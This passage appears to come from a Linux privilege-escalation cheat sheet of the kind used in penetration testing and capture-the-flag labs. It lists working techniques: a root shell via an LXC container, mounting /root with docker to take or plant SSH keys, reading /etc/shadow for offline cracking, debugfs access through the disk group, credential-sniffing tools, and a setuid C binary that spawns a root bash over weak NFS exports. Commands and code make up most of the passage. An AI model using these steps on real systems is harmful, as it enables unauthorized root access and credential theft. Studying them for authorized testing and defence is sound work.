 #### Spawn a shell inside the container instance
```Shell
lxc start r00t
```

```Shell
lxc exec r00t /bin/sh
```

## Capabilities


### Docker
- Members of the docker group can spawn new docker containers
- Example: 
	- Running the command `docker run -v /root:/mnt -it ubuntu`
	- Creates a new Docker instance with the `/root` directory on the host file system mounted as a volume
	- Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user
- This example could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

### Disk
- Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`
- An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges
- As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user

### ADM
- Members of the adm group are able to read all logs stored in `/var/log`


## Miscellaneous Techniques

### Passive Traffic Capture
- `tcpdump`
- [`net-creds`](https://raw.githubusercontent.com/DanMcInerney/net-creds/master/net-creds.py)
- [`PCredz`](https://github.com/lgandx/PCredz)

### Weak NFS Privileges

#### List the NFS server's export list (or the access control list for filesystems) that NFS clients
```Shell
showmount -e 10.129.2.12
```

#### Create a binary in C
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

